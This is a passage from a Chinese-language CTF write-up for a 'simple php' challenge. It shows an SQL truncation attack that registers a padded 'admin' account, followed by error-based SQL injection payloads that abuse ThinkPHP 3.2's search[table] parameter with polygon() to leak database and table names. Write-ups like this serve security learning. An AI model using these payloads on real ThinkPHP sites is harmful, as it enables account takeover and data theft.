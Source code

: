 ### <a class="reference-link" name="simple%20php"></a>simple php

拿到题目

```
http://101.71.29.5:10004/index.php
```

探测了一番，发现`robots.txt`

```
User-agent: *

Disallow: /ebooks
Disallow: /admin
Disallow: /xhtml/?
Disallow: /center

```

尝试

```
http://101.71.29.5:10004/admin
```

发现有登录和注册页面<br>[![](https://p1.ssl.qhimg.com/t01c593467c675a1e29.png)](https://p1.ssl.qhimg.com/t01c593467c675a1e29.png)<br>
探测后，发现是sql约束攻击<br>
注册

```
username = admin                                                                                1
password = 12345678
```

登录即可

```
http://101.71.29.5:10004/Admin/User/Index
```

[![](https://p2.ssl.qhimg.com/t0172917c8ff4f6b6a1.png)](https://p2.ssl.qhimg.com/t0172917c8ff4f6b6a1.png)<br>
发现是搜索框，并且是tp3.2<br>
不难想到注入漏洞，随手尝试报错id

```
http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and polygon(id)--
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011c9df761f621f55f.png)<br>
发现库名`tpctf`，表名`flag`，根据经验猜测字段名是否为flag

```
http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and polygon(flag)--
```
